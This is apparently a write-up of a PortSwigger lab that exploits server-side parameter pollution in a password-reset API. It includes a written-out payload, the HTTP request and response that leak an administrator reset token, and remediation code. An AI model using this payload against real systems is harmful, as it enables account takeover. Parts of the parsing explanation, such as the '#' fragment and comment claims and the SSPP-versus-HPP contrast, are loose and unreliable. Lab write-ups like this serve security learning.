


# Lab 04: Exploiting Server-Side Parameter Pollution in a Query String

> **Topic**: API Testing Vulnerabilities
> **Lab Number**: 04
> **Platform**: PortSwigger Web Security Academy

## Category
API Security / Server-Side Parameter Pollution (SSPP)

## Vulnerability Summary
The application's password reset endpoint is vulnerable to server-side parameter pollution. By injecting URL-encoded `&` (`%26`) and `#` (`%23`) characters into the `username` parameter, we can pollute the query string and manipulate how the backend processes the forgot-password request. This lets us trigger a `reset_token` response instead of sending a password reset email, effectively taking over the administrator account.

## Attack Methodology

### Step 1: Recon the Forgot Password Flow
Opened the lab and hit the "Forgot password" link. Normal flow:
1. Enter username
2. Server sends reset email
3. User clicks link to reset password

Sent a normal forgot-password request through Burp to see the structure.

### Step 2: Finding the Injection Point
The POST body looked like this:
```
csrf=TIGEXChshdaxRExyyZ3w8N02ErDAQ61s&username=carlos
```

The goal is to get a `reset_token` returned in the response instead of an email being sent. The lab hints suggest the backend uses a parameter like `field` to determine what type of response to return.

### Step 3: Crafting the SSPP Payload
Injected URL-encoded special characters into the username parameter:

```
username=administrator%26field=reset_token%23
```

Breaking this down:
- `%26` = URL-encoded `&` — acts as a parameter separator, injecting a new `field=reset_token` parameter
- `%23` = URL-encoded `#` — URL fragment, truncates everything after it so the backend doesn't see trailing garbage

The full request body became:
```
csrf=TIGEXChshdaxRExyyZ3w8N02ErDAQ61s&username=administrator&field=reset_token#
```

### Step 4: Exploitation
Sent the polluted request to Burp Repeater:

```http
POST /forgot-password HTTP/2
Host: 0a5d00ce03c3e9c880b42b9b002d00b4.web-security-academy.net
Cookie: session=xx4yzIJaiDNY3q8VKfSjhBqQjqhj9WQw
Content-Type: x-www-form-urlencoded

csrf=TIGEXChshdaxRExyyZ3w8N02ErDAQ61s&username=administrator%26field=reset_token%23
```

**Response:**
```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8

{
    "result": "hclp1wetqxiuqx41kr54vtae0mbhzck",
    "type": "reset_token"
}
```

Instead of sending an email, the API returned the actual reset token for the administrator account.

### Step 5: Account Takeover
Used the returned reset token to:
1. Navigate to the admin panel
2. Reset the administrator password with the captured token
3. Logged in as administrator
4. Accessed the admin panel and solved the lab




## Technical Root Cause

### What is Server-Side Parameter Pollution (SSPP)?

SSPP happens when user-supplied input containing parameter separators (`&`, `;`, etc.) gets processed by the server in a way that creates additional parameters. Unlike client-side parameter pollution (which affects the browser), SSPP affects how the backend parses and processes the request.

### Why This Works

The vulnerable code probably looks something like this:

```javascript
// ❌ Vulnerable
app.post('/forgot-password', async (req, res) => {
    const { username, field } = req.body;

    // The 'field' parameter was supposed to be set internally,
    // but because of SSPP, the attacker can inject it
    if (field === 'reset_token') {
        const token = await generateResetToken(username);
        return res.json({ result: token, type: 'reset_token' });
    }

    // Normal flow - send email
    await sendPasswordResetEmail(username);
    res.json({ message: 'Check your email' });
});
```

### The Parsing Chain

1. **Client sends:** `username=administrator%26field=reset_token%23`
2. **URL decoder processes:** `username=administrator&field=reset_token#`
3. **Backend parser sees TWO parameters:**
   - `username = administrator`
   - `field = reset_token`
4. **The `#` comment character** prevents any trailing data from breaking the injection

The `#` is important because it acts as a URL fragment identifier — anything after it gets ignored, so we don't have to worry about the original request structure breaking our injection.

## Impact

| Attack Scenario | Impact |
|----------------|--------|
| Token leakage | Full account takeover |
| Bypass email step | No need to intercept emails |
| Admin account compromise | Complete application compromise |
| Privilege escalation | Access to admin panel |

**Severity:** **Critical**

This is especially dangerous because:
- No email access required
- Works against any user account
- Bypasses the intended security flow entirely

## Remediation

### 1. Validate and Sanitize Input
```javascript
// ✅ Secure - validate username format
const usernameRegex = /^[a-zA-Z0-9_]+$/;
if (!usernameRegex.test(username)) {
    return res.status(400).json({ error: 'Invalid username' });
}
```

### 2. Don't Use Internal Parameters from User Input
```javascript
// ✅ Secure - field is determined server-side, never from client
app.post('/forgot-password', async (req, res) => {
    const { username } = req.body;

    // Always send email, never return tokens
    await sendPasswordResetEmail(username);
    res.json({ message: 'Check your email' });
});
```

### 3. Strict Parameter Parsing
```javascript
// Don't allow parameter injection through encoded characters
// Use strict parsing that doesn't re-decode after initial parse
```

### 4. Separate Token Generation from Password Reset
```javascript
// Token endpoint should require separate auth/authorization
app.post('/generate-reset-token', requireAdmin, async (req, res) => {
    // Only admins can generate tokens
    const token = await generateResetToken(req.body.username);
    res.json({ result: token });
});
```

## Tools Used

- **Burp Suite Professional** — Repeater for crafting and testing payloads
- **Chromium** — Browser for the lab

## Lessons Learned

1. **URL-encoding isn't just for special chars** — `%26` and `%23` can be weaponized for parameter injection

2. **The `#` trick is powerful** — Using `#` to truncate trailing request data is a common SSPP technique

3. **Internal parameters should stay internal** — If `field` controls behavior, it shouldn't come from user input

4. **Test beyond the obvious** — The forgot-password form seems harmless until you realize the backend logic can be manipulated

5. **SSPP vs HPP** — Server-side parameter pollution is different from HTTP parameter pollution. SSPP affects how the server processes the request after parsing, while HPP exploits how multiple servers in a chain parse duplicate parameters.

## References

- [PortSwigger: Exploiting server-side parameter pollution in a query string](https://portswigger.net/web-security/api)
- [OWASP API Security Top 10](https://owasp.org/API-Security/)
- [Server-Side Parameter Pollution - PortSwigger Research](https://portswigger.net/research)

---

*Writeup by vibhxr*
